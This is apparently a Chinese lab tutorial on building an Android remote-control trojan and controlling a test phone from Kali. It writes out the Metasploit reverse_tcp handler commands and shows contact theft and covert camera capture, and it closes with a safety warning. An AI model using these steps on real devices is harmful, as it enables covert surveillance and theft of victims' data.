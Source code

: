  远控生成

1、先说点废话，来确认下 Kali 虚拟机配置好的IP地址：


2、在 Kali 终端输入以下命令在 Kali 虚拟机/root路径下生成远控文件520.apk：


传输远控
远控文件已经生成了，但如何从 Kali 虚拟机传输到 Win10 物理主机并进一步传输到受害者手机呢？

1、使用Xshell远程连接工具，新建如下SFTP协议的文件传输会话：


2、同时配置好与远程 Kali 主机对接的本地文件夹，用于 Win 10 主机传输文件的默认存放路径：


3、输入 kali 主机的账户和密码进行登陆并成功连接后，使用命令get 520.apk从Kali 主机下载远控文件到本地文件夹D:\Code下：


4、在 Win 10 主机本地文件夹确认下文件是否下载成功：


安装远控
1、再废话一下，查看并确认华为测试手机的IP地址与 Kali 虚拟机、Win 10主机在同一网段内：


2、在 Kali 虚拟机里查看能否连通手机（这是后续攻击成功的基础）：


3、在 Win 10 主机打开QQ程序，向华为手机发送远控文件并安装(这个就不用演示了吧…)，安装后如下：


开始测试
MSF监听
Kali 终端依次执行以下命令：

代码语言：javascript
复制
msfconsole                //启动msfconsole
use exploit/multi/handler //加载模块set payload android/meterpreter/reverse_tcp //选择Payloadset lhost 192.168.0.199  //这里的地址设置成我们刚才生成木马的IP地址set lport 9999           //这里的端口设置成刚才我们生成木马所监听的端口
exploit                  //开始执行漏洞，开始监听,等待手机上线123456
1、在 Kali 终端输入msfconsole命令启动Metasploit框架：


2、依次以下执行命令加载攻击模块、选择Payload、设置本地监听主机的IP和端口：


3、执行命令exploit，开始执行攻击程序，进入监听状态，等待目标手机上线（用户点击远控程序）：



4、此时手动点击刚才手机中安装的MainActivity程序图标（没有界面），则可成功建立攻击会话：



5、此时输入help命令可查看具体的攻击命令和描述，后面将选择几个进行演示：


命令行执行
成功建立攻击会话后可以对受害者手机进行像Linux主机shell一样对手机进行命令执行操作：


通讯录下载
1、在攻击会话中执行dump_contacts命令导出受害者手机通讯录里的信息到 Kali 虚拟机/root路径下：



2、在虚拟机中查看一下导出来的通讯录文件：


3、同理可导出受害者手机中的短信记录、通话记录……但是此手机没有插手机卡(穷……)，故此处不做演示了。

摄像机拍摄
在攻击会话中执行命令webcam_snap ，可开启受害者的摄像头自动拍摄一张照片并保存到Kali 虚拟机中：


同理还可以非法调用受害者手机的录音功能、屏幕截图功能……

至此，本次Kali系统生成远控程序后控制局域网内Android手机的演示结束，其他控制操作读者有兴趣的话可自行借助help命令给出的使用命令描述进行体验。

温馨提醒：此次演示中的远控程序没有图形化界面的伪装，真实的环境中攻击者会将其伪装得跟正常软件一样，这提醒了我们不要轻易安装安全性未知的软件，同时不要轻易连接公共WIFI，让自己的设备暴露在攻击者搭建的局域网。
